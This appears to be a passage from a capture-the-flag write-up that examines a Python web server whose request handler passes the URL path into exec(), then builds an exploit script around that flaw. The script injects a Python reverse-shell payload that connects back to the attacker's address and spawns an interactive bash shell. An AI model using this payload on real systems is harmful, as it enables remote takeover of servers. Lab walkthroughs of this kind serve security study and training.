 ```python
                        data = f.read()
                status = "200"
            else:
                errorPage = os.path.join(docRoot, "errors", "404.html")
                mime = "text/html"
                with open(errorPage, "r") as f:
                    data = f.read().format(path)
                status = "404"
        except Exception as e:
            print(e)
            errorPage = os.path.join(docRoot, "errors", "500.html")
            mime = "text/html"
            with open(errorPage, "r") as f:
                data = f.read()
            status = "500"
        return {"body": data, "mime": mime, "status": status}
```

The script _handles client-server requests to the web server_, but contains a **vulnerability** in the following code segment

```python
path = urllib.parse.unquote(path)
try:
            info = "output = 'Document: {}'" # Keep the output for later debug
            exec(info.format(path)) # This is how you do string formatting, right?
            cwd = os.path.dirname(os.path.realpath(__file__))
            docRoot = os.path.join(cwd, docRoot)
```

since an **exec** instruction is executed into *info*, that contains *path*, **a variable that we can populate at will** and **which will be injected** into the exec.

Let's build a script that allows us to exploit the vulnerability:

```python
import requests
import urllib
import os

target = 'http://10.10.10.168:8080/'

expl = 'tmp\''+'\nimport socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.27",9999));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"])\na=\''

payload = urllib.parse.quote(expl)
print("payload")
print(target + payload)

r = requests.get(target+payload)

print(r.headers)
print(t.text)
```
